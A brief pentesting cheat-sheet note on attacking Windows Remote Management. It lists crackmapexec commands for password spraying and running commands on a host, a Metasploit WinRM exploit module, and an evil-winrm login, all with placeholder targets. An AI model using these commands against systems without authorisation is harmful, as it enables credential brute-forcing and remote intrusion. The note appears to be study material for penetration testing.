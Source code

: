 
Related to [[Metasploit]] and [[Pass-The-Hash Attacks]]

Windows Remote Management Protocolx

Facilitates remote access to systems via HTTP/HTTPS

We can confirma port is running WinRM with crackmapexec

``` bash
crackmapexec winrm [IP] -u [userlist/user: administrator] -p [wordlist_passwords]
```

We can then run commands with:

``` bash
crackmapexec winrm [IP] -u [user] -p [password] -x "[command]"
```


We can also use metasploit:

``` bash
use /exploit/windows/winrm/winrm_script_exec
```

(you should set  force VPS to true)

We may NOT get a meterpreter session in which case we need to keep trying

We can also use evil-winrm

``` bash
evil-winrm.rb -u [user] -p '[password]' -i [IP]
```